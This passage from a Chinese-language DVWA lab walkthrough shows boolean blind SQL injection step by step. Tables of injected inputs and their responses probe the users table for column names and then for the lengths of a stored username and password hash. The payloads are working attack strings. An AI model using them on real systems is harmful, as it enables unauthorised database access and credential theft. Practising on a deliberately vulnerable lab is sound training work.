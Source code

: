 ==>dvwa库的users表中有8个字段

2）猜解users表中的各个字段的名称
按照常规流程，从users表的第1个字段开始，对其猜解每一个组成字符，获取到完整的第1个字段名称...然后是第2/3/.../8个字段名称。
当字段数目较多、名称较长的时候，若依然按照以上方式手工猜解，则会耗费比较多的时间。当时间有限的情况下，实际上有的字段可能并不太需要获取，字段的位置也暂且不作太多关注，首先获取几个包含关键信息的字段，如：用户名、密码...

【猜想】数据库中可能保存的字段名称
用户名：username/user_name/uname/u_name/user/name/...
密码：password/pass_word/pwd/pass/...

| 输入                                                         | 输出    |
| ------------------------------------------------------------ | ------- |
| 1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='username')=1 # | MISSING |
| 1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='user_name')=1 # | MISSING |
| 1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='uname')=1 # | MISSING |
| 1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='u_name')=1 # | MISSING |
| 1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='user')=1 # | exists  |

==>users表中存在字段**user**

| 输入                                                         | 输出   |
| ------------------------------------------------------------ | ------ |
| 1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='password')=1 # | exists |

==>users表中存在字段**password**

**5.获取表中的字段值**

1）用户名的字段值

| 输入                                                         | 输出    |
| ------------------------------------------------------------ | ------- |
| 1' and length(substr((select user from users limit 0,1),1))>10 # | MISSING |
| 1' and length(substr((select user from users limit 0,1),1))>5 # | MISSING |
| 1' and length(substr((select user from users limit 0,1),1))>3 # | MISSING |
| 1' and length(substr((select user from users limit 0,1),1))=4 # | MISSING |
| 1' and length(substr((select user from users limit 0,1),1))=5 # | exists  |

==>user字段中第1个字段值的字符长度=5

2）密码的字段值

| 输入                                                         | 输出    |
| ------------------------------------------------------------ | ------- |
| 1' and length(substr((select password from users limit 0,1),1))>10 # | exists  |
| 1' and length(substr((select password from users limit 0,1),1))>20 # | exists  |
| 1' and length(substr((select password from users limit 0,1),1))>40 # | MISSING |
| 1' and length(substr((select password from users limit 0,1),1))>30 # | exists  |
| 1' and length(substr((select password from users limit 0,1),1))>35 # | MISSING |
| 1' and length(substr((select password from users limit 0,1),1))>33 # | MISSING |
| 1' and length(substr((select password from users limit 0,1),1))=32 # | exists  |
